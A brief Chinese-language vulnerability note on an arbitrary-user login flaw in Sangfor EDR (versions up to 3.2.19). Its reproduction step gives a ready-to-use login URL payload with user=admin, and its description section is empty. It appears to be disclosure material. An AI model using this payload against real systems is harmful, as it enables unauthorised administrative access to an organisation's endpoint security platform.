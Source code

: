 深信服 终端检测相应平台（EDR） 任意用户登陆漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

EDR \<= v3.2.19

三、复现过程
------------

payload：user后面任意填写都ok

    https://www.0-sec.org:443/ui/login.php?user=admin

![15.png](./.resource/深信服终端检测相应平台(EDR)任意用户登陆漏洞/media/rId24.png)
